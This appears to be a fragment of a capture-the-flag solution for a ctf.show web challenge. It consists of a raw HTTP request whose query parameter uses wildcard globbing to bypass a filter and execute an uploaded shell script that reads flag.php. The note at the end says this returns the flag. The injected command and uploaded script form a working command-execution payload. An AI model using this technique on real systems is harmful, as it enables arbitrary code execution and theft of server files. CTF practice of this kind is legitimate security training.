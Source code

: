 ```typescript
POST /?c=.%20/???/????????[@-[]  HTTP/1.1

Host: 25e9249e-1055-47f7-b66c-9823981070ad.challenge.ctf.show

Content-Length: 319

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: null

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMBaQ4lf7ZwU6ckXf

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

------WebKitFormBoundaryMBaQ4lf7ZwU6ckXf

Content-Disposition: form-data; name="file"; filename="1.php"

Content-Type: application/octet-stream

#!/bin/sh

cat flag.php

------WebKitFormBoundaryMBaQ4lf7ZwU6ckXf

Content-Disposition: form-data; name="submit"

提交

------WebKitFormBoundaryMBaQ4lf7ZwU6ckXf--
```
返回flag

---





